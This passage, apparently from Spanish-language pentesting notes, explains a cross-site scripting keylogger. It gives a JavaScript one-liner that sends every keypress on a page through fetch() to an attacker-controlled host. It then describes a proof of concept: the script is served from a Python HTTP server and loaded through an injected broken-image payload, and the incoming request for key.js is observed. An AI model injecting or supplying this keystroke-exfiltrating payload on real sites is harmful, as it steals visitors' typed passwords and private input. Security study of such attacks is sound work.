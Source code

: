```javascript
document.onkeypress = e => fetch('http://TU-IP:8000/?k=' + e.key);
```
1. _Con document.onkeypress asignamos un evento en escucha que se ejecuta cada vez que alguien en la web presiona una tecla_
2. Con el resto del script, enviamos la petición HTTP a nuestro servidor concatenándole cada pulsación (e.key)

>Para hacer una pequeña prueba de concepto:

![\1](/Attachments/Pasted%20image%2020250609004011.png)
_Creamos el script key.js en nuestro servidor_

>Levantamos un servicio http con Python:

![\1](/Attachments/Pasted%20image%2020250609004055.png)

>Enviamos el payload:

![\1](/Attachments/Pasted%20image%2020250609004340.png)

![\1](/Attachments/Pasted%20image%2020250609004407.png)
_El payload es enviado, en la web, solamente se vera un icono de imagen rota, al tratar de cargar una inexistente_

>Si revisamos las peticiones que han entrado a nuestro servidor con Python, nos encontramos con una petición GET al recurso /key.js:
